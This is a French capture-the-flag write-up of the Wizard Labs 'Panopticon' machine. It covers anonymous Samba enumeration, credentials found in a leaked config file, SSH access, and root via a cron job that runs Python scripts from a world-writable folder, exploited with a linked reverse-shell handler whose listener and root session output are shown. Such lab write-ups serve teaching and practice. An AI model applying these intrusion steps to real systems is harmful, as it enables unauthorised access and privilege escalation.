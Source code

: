 ```yaml
---
title: Solution du CTF Panopticon de Wizard Labs
tags: [CTF, WizardLabs]
---
```


Emoticon
--------

*Panopticon* est un CTF basé Linux proposé sur [Wizard Labs](https://labs.wizard-security.net/).  

Il est annoncé avec une difficulté de 2/10 donc facile :p   

Lexicon
-------

La machine dispose d'un serveur SSH, d'un serveur web Apache ainsi que des ports 139 et 445 rattachés au service Samba.  

L'utilitaire *enum4linux* est généralement utile pour l'énumération SMB. Il indique ici la présence d'un partage de fichier et la possibilité des connexions anonymes (NULL sessions):  

```
 =========================================
|    Nbtstat Information for 10.1.1.34    |
 =========================================
Looking up status of 10.1.1.34
    PANOPTICON      <00> -         B <ACTIVE>  Workstation Service
    PANOPTICON      <03> -         B <ACTIVE>  Messenger Service
    PANOPTICON      <20> -         B <ACTIVE>  File Server Service
    WORKGROUP       <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
    WORKGROUP       <1e> - <GROUP> B <ACTIVE>  Browser Service Elections

    MAC Address = 00-00-00-00-00-00

 ==================================
|    Session Check on 10.1.1.34    |
 ==================================
[+] Server 10.1.1.34 allows sessions using username '', password ''
```

Le partage se nomme *public* :  

```
[+] Attempting to map shares on 10.1.1.34
//10.1.1.34/public  Mapping: OK, Listing: OK
//10.1.1.34/IPC$    [E] Can't understand response:
```

Et l'énumération des utilisateurs remonte deux entrées intéressantes :  

```
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\seer (Local User)
S-1-22-1-1001 Unix User\guest (Local User)
```

Voyons voir ce qu'il y a sur ce partage :  

```
$ smbclient -U "" -N -I 10.1.1.34 //panopticon/public
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jun 17 17:17:11 2018
  ..                                  D        0  Sat Feb 24 20:27:52 2018
  old-site.zip                        N   427943  Sat Feb 24 20:57:47 2018

        15415240 blocks of size 1024. 13458436 blocks available
smb: \> get old-site.zip
getting file \old-site.zip of size 427943 as old-site.zip (772,5 KiloBytes/sec) (average 772,5 KiloBytes/sec)
```

Une fois cette archive décompressée on trouve des identifiants dans le fichier *php-site-master/app/config/config.php* :  

```php
    'database' => array(
        'adapter' => 'mysql',
        'host' => 'localhost',
        'username' => 'seer',
        'password' => 'IS33Something',
        'dbname' => 'php_site'
    ),
```

Silicon
-------

Une recherche rapide dans le code PHP à la recherche de fonctions exploitables (*include*, *require*, *exec*, *passthru* et compagnie) ne retourne rien d'intéressant.  

Peu importe car les identifiants nous ouvrent les portes du serveur SSH :)  

L'utilisateur *seer* fait partie de la plupart des groupes que l'on voit de nos jours sur un système Linux mais n'est pas dans le groupe *sudo*.  

En dehors du flag je remarque un fichier texte intéressant :  

```
$ ls -l ..
total 20
drwxrwxrwx 2 root root 4096 Dec  2 16:21 dev_departement
drwxr-xr-x 2 root root 4096 Feb 24  2018 personal
drwxr-xr-x 2 root root 4096 Feb 24  2018 stuff
drwxr-xr-x 2 root root 4096 Feb 24  2018 tools
-rw-r--r-- 1 seer seer   33 Jun 17 16:55 user.txt

seer@Panopticon:~$ cat user.txt
6d3934480b23c0ca3d164cf19fa11946

seer@Panopticon:~$ cat dev_departement/dev.txt
Hello Seer !! You are the only script developper in this departement ... Like I said you , please drop here all your scripts maybe they can make my life easier :)

Brenda&
```

Intéressant... Ça laisse supposer que l'on peut laisser des scripts dans l'un des dossiers et attendre que *Brenda* les exécute.  

Pourtant pas d'utilisateur *brenda* sur le système, juste nous et *root*. On peut donc espérer une escalade de privilèges directement vers root.  

Mais j'ai beau avoir placé un script ou un binaire à différents emplacements autorisés (l'accès est impossible sur certains, voir le résultat de *ls* ci-dessus), rien ne semble exécuté.  

Une recherche sur l'utilisateur courant a remonté une entrée étrange dans */etc/issue* :  

```
seer@Panopticon:~$ grep -r seer /etc/ 2> /dev/null
/etc/aliases:root: seer
/etc/issue:2. in /home/seer/flag2.txt
/etc/services:afs3-bos  7007/tcp            # basic overseer process
/etc/subgid:seer:100000:65536
/etc/subuid:seer:100000:65536
/etc/passwd:seer:x:1000:1000:seer,,,:/home/seer:/bin/bash
/etc/group:cdrom:x:24:seer
/etc/group:floppy:x:25:seer
/etc/group:audio:x:29:seer
/etc/group:dip:x:30:seer
/etc/group:video:x:44:seer
/etc/group:plugdev:x:46:seer
/etc/group:netdev:x:108:seer
/etc/group:seer:x:1000:
seer@Panopticon:~$ cat /etc/issue
Welcome to Panopticon.

There are 3 flags to be found.

1. in /home/guest/public/flag1.txt
2. in /home/seer/flag2.txt
3. in /root/flag3.txt

This machine is made in order to test the mindset and not the technical
knowledge, although some basic pentesting experience is needed.

Enjoy and give me some feedback at perselis.e@gmail.com or
at facebook on the name emmanouil perselis.

Made by AXANO
IP: \4
```

Il semble que le premier flag ne soit plus d'actualité. Cela ne nous avance pas plus que ça.  

En revanche la recherche a mis en évidence l'alias mail de *seer* pour root (dans */etc/aliases*) et effectivement au bout d'un moment j'ai la notification d'un mail reçu dans le terminal.  

```
seer@Panopticon:~$ mail
"/var/mail/seer": 26307 messages 26307 new
>N   1 seer               Fri Feb 23 21:26  16/729   *** SECURITY information for Panopticon.Panopticon ***
 N   6 Cron Daemon        Sat Feb 24 21:30  35/1495  Cron <root@Panopticon> /home/seer/update.sh
 N  21 Cron Daemon        Sat Feb 24 22:04  44/2198  Cron <root@Panopticon> /home/seer/.update.sh
```

On voit ici que l'utilisateur a 26307 messages dans sa boîte ^\_^.  

*mail* est un vieux programme permettant l'envoi et la lecture du courrier depuis */var/spool/mail*.  

On peut lister les mails avec la commande *'l'*, afficher le contenu d'un message en rentrant son numéro, supprimer avec *'d'* suivi du numéro pour supprimer un email (ou l'astérisque pour tout supprimer) et enfin *'q'* pour quitter.  

Ici on voit qu'une tache *crontab* tente de lancer le script */home/seer/update.sh* ou */home/seer/.update.sh*.  

J'ai donc placé un script qui place un bash setuid à ces emplacements mais au bout d'un moment toujours rien :(.  

Favicon
-------

Finalement nouveau mail reçu :  

```
You have new mail in /var/mail/seer
 U2625 Cron Daemon        Sun Dec  2 14:48  23/849   Cron <root@Panopticon> bash /var/tmp/.lol.sh
python3: can't open file '*.py': [Errno 2] No such file or directory
```

J'aurais du aller lire le dernier email directement :p  

On a donc un script dans */var/tmp* qui essaye d'exécuter tous les scripts Python (on suppose dans le même dossier car le script n'est pas lisible) :  

```
-rwx------ 1 root root 125 Jun 27 14:38 /var/tmp/.lol.sh
```

J'ai eu recours [au reverse shell PTY Python d'Infodox](https://github.com/infodox/python-pty-shells/blob/master/tcp_pty_backconnect.py) et après un moment ça a payé :  

```
$ python2 tcp_pty_shell_handler.py -b 0.0.0.0:7777
root@Panopticon:/home/seer/dev_departement# id
uid=0(root) gid=0(root) groups=0(root)
root@Panopticon:/home/seer/dev_departement# cd /root
root@Panopticon:~# ls
root.txt
root@Panopticon:~# cat root.txt
8b470f864495744fcd8c3dc7b370e889
root@Panopticon:~# crontab -l
# Edit this file to introduce tasks to be run by cron.
#
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
#
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').#
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
#
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
#
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
#
# For more information see the manual pages of crontab(5) and cron(8)
#
# m h  dom mon dow   command

*/2 * * * * bash /var/tmp/.lol.sh
root@Panopticon:~# cat /var/tmp/.lol.sh
cd /home/seer/dev_departement
for f in *.py; do  # or wget-*.sh instead of *.sh
  python3 "$f"   || break # if needed
done
```


*Published November 17 2020 at 13:38*
